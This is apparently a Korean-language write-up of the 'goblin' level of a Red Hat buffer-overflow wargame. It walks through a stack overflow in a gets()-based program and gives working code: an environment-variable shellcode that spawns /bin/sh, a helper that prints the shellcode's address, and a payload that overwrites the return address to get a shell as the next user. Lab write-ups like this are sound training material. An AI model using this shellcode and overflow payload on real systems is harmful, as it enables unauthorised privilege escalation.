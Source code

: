 ============================================================================================================
[redhat-lob] (3) goblin
============================================================================================================


.. graphviz::

    digraph foo {
        a -> b -> c -> d -> e;

        a [shape=box, label="dummy * 20 + envp address"];
        b [shape=box, color=lightblue, label="gets"];
        c [shape=box, label="Buffer Overflow"];
        d [shape=box, label="envp address"];
        e [shape=box, label="dummy * 100 + shellcode"];
    }


|

Source Code
============================================================================================================

.. code-block:: c

    int main()
    {
        char buffer[16];
        gets(buffer);
        printf("%s\n", buffer);
    }


|


Vulnerabliity Vector
============================================================================================================

main 함수의 ret를 덮어씌워 오버플로우를 발생시킨다.

.. code-block:: console

    ==============================
    LOW     
    ------------------------------
    local variables of main
    saved registers of main
    return address of main <<- overflow
    argc
    argv
    envp
    stack from startup code
    argc
    argv pointers
    NULL that ends argv[]
    environment pointers
    NULL that ends envp[]
    ELF Auxiliary Table
    argv strings
    environment strings
    program name
    NULL
    ------------------------------
    HIGH (0xC0000000)    
    ==============================

|


Buffer Overflow
============================================================================================================


.. code-block:: console

    ※ 시작시 bash2 명령을 입력하고 bash2 쉘 상태에서 진행
    $ bash2
    $ ./goblin
    aaaaaaaaaaaaaaaa

    aaaaaaaaaaaaaaaa

    $ ./goblin
    aaaaaaaaaaaaaaaaaaaa

    aaaaaaaaaaaaaaaaaaaa
    Segmentation fault

|

exploit
============================================================================================================

환경 변수 상에 쉘코드 등록
------------------------------------------------------------------------------------------------------------

환경 변수에 쉘코드를 등록해두고, 입력값 마지막 리턴 주소를 환경 변수 주소로 변경하여 해당 쉘코드를 실행하도록 한다.

.. code-block:: console

    $ export shellcode=`python -c 'print "\x90"*100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`

|

환경 변수 주소값 확인
------------------------------------------------------------------------------------------------------------

다음과 같이 소스코드를 작성하여 shellcode 환경 변수에 대한 주소 값을 획득.

.. code-block:: c

    #include <stdio.h>
    int main(int argc, char **argv)
    {
            char *addr;
            addr = getenv(argv[1]);
            printf("address %p\n", addr);
            return 0;
    }

.. code-block:: console

    $ gcc -o get get.c

    get.c: In function `main':
    get.c:6: warning: assignment makes pointer from integer without a cast

    $ ./get shellcode

    address 0xbfffff02

|

환경 변수 주소 쉘코드 실행
------------------------------------------------------------------------------------------------------------

.. code-block:: console

    ==============================
    LOW     
    ------------------------------
    local variables of main
    saved registers of main
    return address of main <<- overflow
    argc
    argv
    envp
    stack from startup code
    argc
    argv pointers
    NULL that ends argv[]
    environment pointers ->> shellcode
    NULL that ends envp[]
    ELF Auxiliary Table
    argv strings
    environment strings
    program name
    NULL
    ------------------------------
    HIGH (0xC0000000)    
    ==============================

|


오버플로우시 RET를 환경 변수 주소로 덮어씌워 해당 쉘코드가 실행되도록 한다. 

gets의 경우 프로그램 실행 이후 값이 입력되어야 하기 때문에 다음 형식으로 변수를 입력합니다.

.. code-block:: console

    $ (python -c 'print "a"*20+"\x01\xff\xff\xbf"';cat) |./goblin
    aaaaaaaaaaaaaaaaaaaa▒▒▒

    whoami
    goblin
    my-pass
    euid = 503
    hackers proof

